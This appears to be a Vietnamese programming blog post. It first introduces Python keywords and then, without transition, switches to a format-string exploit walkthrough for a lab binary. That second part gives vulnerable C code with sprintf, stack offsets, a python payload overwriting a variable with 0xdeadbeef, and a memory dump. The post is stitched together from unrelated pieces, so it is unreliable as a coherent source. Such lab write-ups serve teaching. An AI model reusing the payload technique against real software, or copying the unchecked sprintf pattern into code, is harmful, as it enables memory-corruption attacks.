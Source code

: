 ```yaml
---
layout: post
title: level_0
---
```


## Python hay C/C++?

C/C++: khó viết khó đọc, nhưng chương trình viết ra thường tối ưu, chạy nhanh

Python: dễ viết dễ đọc, nhiều thư viện hỗ trợ

Mục tiêu là để học và hiểu về thuật toán, nên chỉ chú trọng vào việc đọc và viết code một cách thuận tiện nhất. Vì thế, hãy sử dụng Python

## Những thứ cơ bản nhất

### Keyword

Keyword được highlight dưới đây là những keyword thông dụng:

<pre class="memory">
<span style="color:aqua">False</span>     await       <span style="color:aqua">else</span>       import      pass
<span style="color:aqua">None</span>      <span style="color:aqua">break</span>       except     <span style="color:aqua">in</span>          raise
<span style="color:aqua">True</span>      <span style="color:aqua">class</span>       finally    <span style="color:aqua">is</span>          <span style="color:aqua">return</span>
<span style="color:aqua">and</span>       <span style="color:aqua">continue</span>    <span style="color:aqua">for</span>        lambda      try
as        <span style="color:aqua">def</span>         from       nonlocal    <span style="color:aqua">while</span>
assert    del         global     <span style="color:aqua">not</span>         with
async     <span style="color:aqua">elif</span>        <span style="color:aqua">if</span>         <span style="color:aqua">or</span>          yield
</pre>

Phân loại keyword

<pre class="memory">
giá trị boolean và null: None False True
thư viện và tên thay thế (alias): from import as
asynchronous: async await
bắt lỗi: try except raise finally
logic: and not or is
iterate: in
trả về và thoát hàm: pass return yield assert
code flow: for while continue break if elif else
định nghĩa hàm, class, và context: def class lambda with
định nghĩa scope của biến: global nonlocal
xóa biến: del
</pre>


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Hàm đầu tiên được xem xét trong bài này là `sprintf`. Hàm này có tham số đầu tiên là một biến (pointer), tiếp theo là một formatted string, theo sau đó là các tham số để thay vào formatted string. `sprintf` hoạt động bằng cách phân tích formatted string đưa vào, sau đó sinh ra một chuỗi mới sẽ được lưu vào biến tham số.

Tương tự như trong các bài về exploit stack trước đây.
1. Biến `target` được lưu trên stack với địa chỉ `ebp - 0xc`. Biến này có 4 byte.
2. Biến `buffer` được lưu trên stack với địa chỉ `ebp - 0x4c`. Biến này có 64 byte.

2 biến này lắm kề này trên stack. Do đó, về cơ bản, chúng ta sẽ cần một formatted string có thể sinh ra 68 byte, trong đó 4 byte cuối sẽ chứa giá trị mong muốn của `target`. Để exploit format0, formatted string sẽ như sau.

```bash
python -c "print '%064d\xef\xbe\xad\xde'"
```

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x30303030</span>
0xbffff720:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff730:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff740:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff750:     <span style="color:aqua">0x31303030</span>      <span style="color:aqua">0x31353433</span>      <span style="color:aqua">0x38323133</span>      <span style="color:orangered">0xdeadbeef</span>
0xbffff760:     0xb7fd8300      0xb7fd7ff4      0xbffff788      0x08048444
</pre>